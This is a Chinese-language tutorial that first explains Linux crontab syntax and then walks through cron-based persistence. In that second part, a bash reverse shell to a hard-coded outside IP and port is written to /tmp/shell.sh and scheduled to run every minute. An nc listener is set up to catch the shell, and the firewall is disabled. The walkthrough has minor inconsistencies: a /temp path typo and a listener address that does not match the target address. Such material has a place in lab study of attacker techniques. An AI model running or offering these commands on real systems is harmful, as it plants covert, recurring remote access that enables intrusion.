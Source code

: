 # 定时任务介绍                                      [ ](af://n4)

Linux crontab 是用来定期执行程序的命令。

当安装完成操作系统之后， 默认便会启动此任务调度命令。

crond 命令每分钟会定期检查是否有要执行的工作， 如果有要执行的工作便会自动执行该工作。

注意： 新创建的 cron 任务， 不会马上执行， 至少要过 2 分钟后才可以， 当然你可以重启 cron 来马上执行。 命令介绍如下

```
用法 :【crontab [options] file】  |【crontab [options]】  |【crontab -n [hostname]】 
选项:
-u <user>	定义用户
-e	编辑用户的计划任务
-l	列出用户的计划任务
-r	删除用户的计划任务
-i	删除前提示
-n <host>	set host in cluster to run users ' crontabs
-c	get host in cluster to run users ' crontabs
-s	selinux context
-x <mask>	启用调试
```

时间格式如下：

```
f1 f2 f3 f4 f5 program 

分 时  天 月 星期几 执行的程序
```

```
其中 f1 是表示分钟，f2 表示小时， f3 表示一个月份中的第几日，f4 表示月份，f5 表示一个星期中的第几天。 program 表示要执行的程序。
当  f1 为  * 时表示每分钟都要执行  program，  f2 为  * 时表示每小时都要执行程序，  其馀类推
当  f1 为  a-b 时表示从第  a 分钟到第  b 分钟这段时间内要执行，  f2 为  a-b 时表示从第  a 到第  b 小时都要执 行，  其馀类推
当  f1 为  */n 时表示每  n 分钟个时间间隔执行一次，  f2 为  */n 表示每  n 小时个时间间隔执行一次，  其馀类推     
当  f1 为  a, b, c,... 时表示第  a, b, c,... 分钟要执行，  f2 为  a, b, c,... 时表示第  a, b, c...个小 时要执行，  其馀类推
```

# 定时任务维持                                      [ ](af://n20)

## 1、创建shell脚本在 /tmp/shell.sh![img](https://image.201068.xyz/assets/clip_image002-16839593447041.gif)

```
echo "bash -i >&/dev/tcp/47.120.13.249/12345 0>&1" > /tmp/shell.sh
```

![img](https://image.201068.xyz/assets/clip_image005-16839593447053.jpg)

## 2、更改权限

```
chmod 755 /tmp/shell.sh  
```

## 3、编辑计划任务 

 `crontab -e` ![img](https://image.201068.xyz/assets/clip_image007.gif)输入 `*/1 * * * * /tmp/shell.sh`![img](https://image.201068.xyz/assets/clip_image009-16839593447054.gif)， 如果是-e编辑的不需要添加用户名

```
 crontab -e
 */1 * * * * /temp/shell.sh
 
 crontab -l
 systemctl status crond //查看计划任务状态  
 systemctl start crond.service//启动计划任务  
```

![img](https://image.201068.xyz/assets/clip_image010-16839593447055.jpg)

## 4、在192.168.41.129上用nc监听，

```
nc -lvvp 12345

如果不行记得关闭防火墙
systemctl stop firewalld.service
```

![img](https://image.201068.xyz/assets/clip_image012-16839593447056.gif)

## 5、等待连接， 连接成功

![img](https://image.201068.xyz/assets/clip_image013-16839593447057.jpg)